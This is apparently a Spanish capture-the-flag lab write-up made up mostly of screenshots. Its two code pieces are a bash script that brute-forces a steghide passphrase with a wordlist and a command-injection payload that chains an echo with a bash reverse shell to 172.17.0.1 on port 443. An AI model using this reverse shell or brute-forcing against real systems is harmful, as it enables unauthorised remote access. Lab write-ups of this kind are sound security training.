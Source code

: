 ![](Pasted%20image%2020250309180419.png)

![](Pasted%20image%2020250309180525.png)

![](Pasted%20image%2020250309180709.png)

![](Pasted%20image%2020250309180827.png)

![](Pasted%20image%2020250309180910.png)

![](Pasted%20image%2020250309183320.png)

![](Pasted%20image%2020250310133216.png)

Con esto el comando nos muestra su respuesta stderr, buscaremos un stdout con fuerza bruta:

``` bash
#!/bin/bash

# Verifica que se hayan pasado los argumentos correctamente
if [ "$#" -ne 2 ]; then
    echo "Uso: $0 <archivo_imagen> <archivo_wordlist>"
    exit 1
fi

image_file=$1
wordlist_file=$2

# Contar las contraseñas en el archivo wordlist
total_lines=$(wc -l < "$wordlist_file")
echo "[+] Total de contraseñas en la lista: $total_lines"

# Leer el archivo wordlist y probar cada contraseña
i=0
while IFS= read -r password; do
    i=$((i + 1))
    # Ejecutar steghide para intentar extraer con la contraseña
    result=$(steghide --extract -sf "$image_file" -p "$password" 2>&1)
    
    # Si el comando es exitoso, se imprimirá la salida y terminamos
    if [[ $? -eq 0 ]]; then
        echo "[+] ¡Contraseña correcta! : $password"
        echo "$result"  # Mostrar la salida de steghide (contenido extraído)
        break
    fi

    # Mostrar progreso cada 100 intentos
    if (( i % 100 == 0 )); then
        echo "[+] Intento $i/$total_lines contraseñas."
    fi
done < "$wordlist_file"

echo "[+] Proceso terminado."
```

![](Pasted%20image%2020250310142121.png)

![](Pasted%20image%2020250310152709.png)

![](Pasted%20image%2020250310152735.png)

![](Pasted%20image%2020250310153810.png)
![](Pasted%20image%2020250310155200.png)

![](Pasted%20image%2020250310155957.png)

``` bash
echo -e 'pinguino hackeable' > archivo.txt; bash -i >& /dev/tcp/172.17.0.1/443 0>&1
```

![](Pasted%20image%2020250310161517.png)

![](Pasted%20image%2020250310161547.png)

